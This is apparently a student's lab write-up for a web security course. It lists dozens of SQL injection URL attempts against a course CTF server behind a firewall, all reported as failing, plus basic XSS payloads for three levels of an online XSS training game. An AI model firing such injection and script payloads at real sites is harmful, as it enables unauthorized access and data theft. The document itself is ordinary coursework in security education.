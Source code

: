 # Writeup 1 - Web I

Name: Marco Roxas
Section: 0101

I pledge on my honor that I have not given or received any unauthorized assistance on this assignment or examination.

Digital acknowledgement: Marco Roxas


### Part 1 (40 Pts)

Such a Quick Little, website!  [http://142.93.136.81:5000/](http://142.93.136.81:5000/)

I wasn't able to find a way to obtain the flag despite a good hint from an instructor. There's a WAF (Web App Firewall) that is active on the server which I'm not able to find a way to bypass in the time allotted.

Some URL strings that I tried were the following (with some comments):

~~~~
http://142.93.136.81:5000/item?id=OR'1'='1'
http://142.93.136.81:5000/item?id=1&NOT('1'!='1')
http://142.93.136.81:5000/item?id=0&!(1!=1)
http://142.93.136.81:5000/item?id=R O{$id} 1=1;--
http://142.93.136.81:5000/item?id=R "O{$id}" 1=1;--
http://142.93.136.81:5000/item?id=R"O{$id}"1=1;--
http://142.93.136.81:5000/item?id=1OR"O{$id}"1=1;--
http://142.93.136.81:5000/item?1=1&id=1&1=1
http://142.93.136.81:5000/item?1 OR 1&id=1;--
http://142.93.136.81:5000/item?1&id=1;--
http://142.93.136.81:5000/item?1&id=1
http://142.93.136.81:5000/item?1&id=1&1OR1
http://142.93.136.81:5000/item?1&id=1 OR 1=1
~~~~

Basic ideas were tried above, some of which triggered the WAF. It was hoped that using the PHP `$` with variable names can result in bypassing the WAF.

~~~~
http://142.93.136.81:5000/item?id=0 {$name[1]}{$name[2]} 1=1;--
http://142.93.136.81:5000/item?id=0 $name[1]$name[2] 1=1;--
http://142.93.136.81:5000/item?id=0 $name{2}$name{3} 1=1;--
http://142.93.136.81:5000/item?id=0 $name{0}$name{2} 1=1;--
http://142.93.136.81:5000/item?id=0 "$name{1}$name{2}" 1=1;--
http://142.93.136.81:5000/item?id=0&$name[1]$name[2] 1=1;--
http://142.93.136.81:5000/item?id=0 O$name[2] 1=1;--
http://142.93.136.81:5000/item?id=0 O$name[3] 1=1;--
http://142.93.136.81:5000/item?id=0 $name[1]R 1=1;--
http://142.93.136.81:5000/item?id=0 $name[2]R 1=1;--
http://142.93.136.81:5000/item?id=0 $name[3]R 1=1;--
http://142.93.136.81:5000/item?id=O {$id}R 1=1;--
http://142.93.136.81:5000/item?id=0 and $name{1}$name{2} 1=1;--
~~~~

This is a continuation of utilizing `$`. A nonsensical reference of `$name[1]` was tried since the name field started with `Fortnite` (the word OR is embedded).

~~~~
http://142.93.136.81:5000/item?id=0 " . " OR 1=1;--"
http://142.93.136.81:5000/item?id=0 " . echo \'O\' . "R 1=1;--"
http://142.93.136.81:5000/item?id=0 " . echo "O" . "R 1=1;--"
http://142.93.136.81:5000/item?id=0 " . "O" . "R 1=1;---"
http://142.93.136.81:5000/item?id=0 "."O"."R 1=1;--"
http://142.93.136.81:5000/item?id=2 O" . "R 1=1;--"
http://142.93.136.81:5000/item?id=1 O\0x52 1=1;--"
http://142.93.136.81:5000/item?id=1 O\x52 1=1;--"
http://142.93.136.81:5000/item?id=0 O\122 1=1;--"
http://142.93.136.81:5000/item?id=0 O\R 1=1;--"
http://142.93.136.81:5000/item?id=0 Or 1=1;--"
http://142.93.136.81:5000/item?id=0 \OR 1=1;--"
http://142.93.136.81:5000/item?id=0 \O\x52 1=1;--"
http://142.93.136.81:5000/item?id=1 O" . "R 1=1;--"
http://142.93.136.81:5000/item?id=1 O" "R 1=1;--"
http://142.93.136.81:5000/item?id=0 OR 1=1;--"
http://142.93.136.81:5000/item?id=0 " . "O" . "R 1=1;--"
http://142.93.136.81:5000/item?id=0 " . "O_R 1=1;--"
http://142.93.136.81:5000/item?id=0 ORO 1=1;--
http://142.93.136.81:5000/item?id=0 " . $name[2] . $name[3] ." 1=1;--"
http://142.93.136.81:5000/item?id=0 " . "O" . "R" ." 1=1;--"
http://142.93.136.81:5000/item?id=0 O{$chr(0x52)} 1=1;--"
http://142.93.136.81:5000/item?id=0 O{$chr(82)} 1=1;--"
http://142.93.136.81:5000/item?id=0 . O{$chr(82)} . 1=1;--"
http://142.93.136.81:5000/item?id=0 {$name[1]}{$name[2]} 1=1;--"
http://142.93.136.81:5000/item?id=0 $OR 1=1;--"
http://142.93.136.81:5000/item?id=0 \O\R 1=1;--
http://142.93.136.81:5000/item?id=0 O{$nul}R 1=1;--
http://142.93.136.81:5000/item?id=0 OQ%08R 1=1;--
http://142.93.136.81:5000/item?id=0 O{$_}R 1=1;--
http://142.93.136.81:5000/item?id=0 O/R 1=1;--
http://142.93.136.81:5000/item?id=0 O.R.1=1;--
http://142.93.136.81:5000/item?id=0 CHAR(79)CHAR(82) 1=1;--
http://142.93.136.81:5000/item?id=999999999999999999999999999999999
http://142.93.136.81:5000/item&1=1
http://142.93.136.81:5000/item?id=$PHP_MINOR_VERSION
http://142.93.136.81:5000/item?id=0 O" . "R 1=1;--"
http://142.93.136.81:5000/item?id=0 O#R 1=1;--
http://142.93.136.81:5000/item?id=0&O##R&1=1;--
http://142.93.136.81:5000/item?id=0+O##R+1=1;--
http://142.93.136.81:5000/item?id=0+O%%R+1=1--
http://142.93.136.81:5000/item?id=0 \O\R 1=1; --
~~~~

Finally a few more ideas were tried as shown above, such as utilizing other encodings `0x52` and the SQL `CHAR()` function (which was not the correct usage).  Interestingly using `$PHP_MINOR_VERSION` triggered the WAF while a shorter `$PHP_MIN` did not. Bypassing the WAF was also attempted by using `#` or `%`.

For many of these a space character may have been needed between the the semicolon and comment, ie, `; --`.

There is a flag obtainable on the main web page via port 80 of the same server (`CMSC389R-{h1dd3n_1n_plain_5ight}`), however that's not part of this assignment.

### Part 2 (60 Pts)
Complete all 6 levels of:

[https://xss-game.appspot.com](https://xss-game.appspot.com)

The following inputs were used:

~~~~
<script>alert('Hi');</script>

<p onclick="alert('Hi');">Hi</p>

https://xss-game.appspot.com/level3/frame#2.jpg'/><script>alert('Hi');</script>
~~~~

Level 1 just needed javascript within an html `<script>` tag.

Level 2 displayed an element and a `<script>` tag couldn't be used. The `onclick` attribute was tried and worked.

Level 3 required an image tag to be terminated. By right-clicking on the resulting broken image icon and selecting View Image, the proper syntax to use was shown, and with some trial and error a string with starting `'/><script>` was found to work.

Level 4 I think utilized the moustache javascript library (or similar) so some way to escape the javascript code had to be found, which I was not able to in the time allotted to reach the next level.
